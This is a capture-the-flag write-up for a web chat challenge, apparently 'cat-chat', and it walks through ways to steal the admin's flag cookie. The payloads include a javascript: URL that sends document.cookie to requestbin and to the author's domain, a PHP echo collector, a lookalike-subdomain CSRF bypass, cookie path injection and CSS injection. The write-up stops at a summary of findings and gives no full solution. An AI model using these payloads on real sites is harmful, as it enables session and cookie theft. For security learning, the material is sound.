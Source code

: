 # Goal
Get the Flag value of the admin sent via the /secret command

# Command Analysis

`/name $(value)` sets value of $(name). Note that you can set yourself as admin by `/name admin`.

`/report $(name)` leads to `/ban $(name)` , i.e. admin goes to your site when you report the person.

`/secret $(value)` sets the value of the `flag` cookie. There's no filter or sanitization so any character will be accepted.

# Steps

### 1. Payload in $(name)

$(name) is controllable. But it can't be so simple, can it?       
Let's try `/report javascript:location.href="//requestbin.net/xxx"+document.cookie`:

<csrf check fail img>

Doh! There's a CSRF header check. Let's try to bypass that.

### 2. CSRF

We can bypass the CSRF header check which only checks the start of the http location `cat-chat.web.ctfcompetition.com` like this:      
`cat-chat.web.ctfcompetition.com.example.com`     
Creating a subdomain on my server, we can do `cat-chat.web.ctfcompetition.com.ylkoh.top` to see the requests being sent to our server.  
We'll also host a PHP file on it to echo the request:    
```
<?php
  echo $_GET[c];
?>
```
Sending the same request above `/report javascript:location.href="//ylkoh.top/x.php"+document.cookie`: 

Alas! We did not get any useful information in the request.
Well that was kinda expected.

### 3. Concatenate multiple commands

One things I noticed from the server regex was that it took the request as long as it starts with `/xxx`.     
So, how about if we concatenate commands?

Let's try `/report /secret abc`, which leads to `/ban /secret abc` as seen earlier.

Using this payload: `/send?name=red_racoon&msg=/name/secret abc`, we get the following response:

<response image>

### 4. Setting a path to /secret

Since the `/secret` command sets a cookie with the `PATH= /`, we can try setting the path by sending it as a part of the request.    
`send?name=brown_bombay&msg=%2Fsecret+hey;+Path=/lol_thats_funny`

Which sets the following cookie:
`Set-Cookie: flag=hey; Path=/lol_thats_funny; Path=/; Max-Age=31536000`

### 5. CSS Injection

Looking through the catchat.js code again, there's actually a CSS Injection.      
`/name a]{;}body{background:red;}span[data-name^=
/report`

Which leads to this message appearing for other users:    
```display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);```

Generating this style in the CSS:      
```<style>span[data-name^=a]{;}body{background:red;}span[data-name^=a] { color: red; }</style>```

Not sure if it's useful but we could possibly bypass any CSP headers (there aren't any) with that.    
However, we can also bypass CSRF Headers with this method, using `background: url(http://domain/send?msg=abcd)`

# Summary

What do we know so far? 
* We must redirect the admin to our domain, so we need a CSRF Bypass
* Available commands are `/name /ban /secret /report`
* `/report` triggers a captcha so we cannot use that
* `/ban` allows any user to be banned, including the admin
* `/name` allows us to rename the admin

`flag=test; path=/some_weird_path` will trigger the relevant JS ``secret(data) { display(`Successfully changed secret to <span data-secret="${esc(cookie('flag'))}">*****</span>`); },``, showing the flag's path.

Cookie will take the path a `/`, not `/some_weird_path`. So we can set a cookie with a long value and it will ignore the second path.


